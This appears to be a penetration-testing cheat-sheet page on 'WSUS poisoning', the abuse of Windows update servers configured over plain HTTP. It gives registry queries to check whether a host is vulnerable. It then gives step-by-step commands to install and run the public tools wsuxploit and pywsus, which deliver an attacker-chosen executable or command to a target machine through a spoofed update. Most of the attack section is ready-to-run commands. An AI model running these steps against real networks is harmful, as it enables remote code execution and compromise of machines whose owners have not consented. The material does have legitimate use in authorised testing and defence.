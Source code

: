 # WSUS Poison

## pBrief

You can compromise the system if the updates are not requested using **httpS** but **http**.

```powershell
# Check if the network uses a non-SSL WSUS update by running the following :
reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer
# If you get a reply such as:
HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\WindowsUpdate
      WUServer    REG_SZ    http://xxxx-updxx.corp.internal.com:8535
	  
# and if this returns 1 :
reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate\AU /v UseWUServer
# this is exploitable. If the last registry is equals to 0, then, the WSUS entry will be ignored.
```

### Exploit

#### WSUXPloit

{% embed url="https://github.com/pimps/wsuxploit" %}

```bash
git clone https://github.com/pimps/wsuxploit.git
sudo apt-get install samba dsniff iptables python
pip install twisted
cd wsuxploit/
git clone https://github.com/ctxis/wsuspect-proxy.git
./wsuxploit.sh $TARGET_IP $WSUS_IP $WSUS_PORT $BINARY_PATH
```

#### PYWSUS

{% embed url="https://github.com/GoSecure/pywsus" %}

```bash
git clone https://github.com/GoSecure/pywsus.git
cd pywsus/
pip install -r requirements.txt
python pywsus.py -H $HOST -c $COMMAND -e $EXECUTABLE
```
